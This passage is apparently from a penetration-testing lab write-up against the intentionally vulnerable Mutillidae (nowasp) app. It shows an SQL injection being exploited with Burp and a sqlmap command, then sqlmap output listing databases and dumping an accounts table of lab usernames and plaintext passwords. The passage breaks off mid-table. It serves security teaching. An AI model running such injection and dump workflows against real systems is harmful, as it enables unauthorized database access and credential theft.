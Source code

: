 ![admin](/images/2015/02/03/admin.png)

There's another SQL injection in the `view-someones-blog.php` page. Let's use `burp` and `sqlmap` to automate the exploitation. First we intercept the HTTP request with burp and save it to a file:

![request](/images/2015/02/03/request.png)
  
Then we can use the request file with sqlmap and extract data from the database(s):

```
sqlmap -r ~/request --dbs
[05:56:08] [INFO] the back-end DBMS is MySQL
web server operating system: Windows
web application technology: PHP 5.6.3, Apache 2.4.10
back-end DBMS: MySQL 5.0
[05:56:08] [INFO] fetching database names
available databases [8]:
[*] cdcol
[*] information_schema
[*] mysql
[*] nowasp
[*] performance_schema
[*] phpmyadmin
[*] test
[*] webauth
```

We can dump user account data:

{{<codecaption lang="text" title="SQLMap Table Dump">}}
Database: nowasp
Table: accounts
[23 entries]
+-----+----------+---------------+----------+--------------+-----------+-----------------------------------------+
| cid | username | lastname      | is_admin | password     | firstname | mysignature                             |
+-----+----------+---------------+----------+--------------+-----------+-----------------------------------------+
| 9   | simba    | Lion          | FALSE    | password     | Simba     | I am a super-cat                        |
| 8   | bobby    | Hill          | FALSE    | password     | Bobby     | Hank is my dad                          |
| 7   | jim      | Rome          | FALSE    | password     | Jim       | Rome is burning                         |
| 6   | samurai  | WTF           | FALSE    | samurai      | Samurai   | Carving fools                           |
| 5   | bryce    | Galbraith     | FALSE    | password     | Bryce     | I Love SANS                             |
| 4   | jeremy   | Druin         | FALSE    | password     | Jeremy    | d1373 1337 speak                        |
| 3   | john     | Pentest       | FALSE    | monkey       | John      | I like the smell of confunk             |
| 2   | adrian   | Crenshaw      | TRUE     | somepassword | Adrian    | Zombie Films Rock!                      |
| 23  | ed       | Skoudis       | FALSE    | pentest      | Ed        | Commandline KungFu anyone?              |
| 22  | james    | Jardine       | FALSE    | i<3devs      | James     | Occupation: Researcher                  |
| 21  | CHook    | Hook          | FALSE    | JollyRoger   | Captain   | Gator-hater                             |
| 20  | PPan     | Pan           | FALSE    | NotTelling   | Peter     | Where is Tinker?                        |
| 1   | admin    | Administrator | TRUE     | adminpass    | System    | g0t r00t?                               |
| 19  | ABaker   | Baker         | TRUE     | SoSecret     | Aaron     | Muffin tops only                        |
| 18  | tim      | Tomes         | FALSE    | lanmaster53  | Tim       | Because reconnaissance is hard to spell |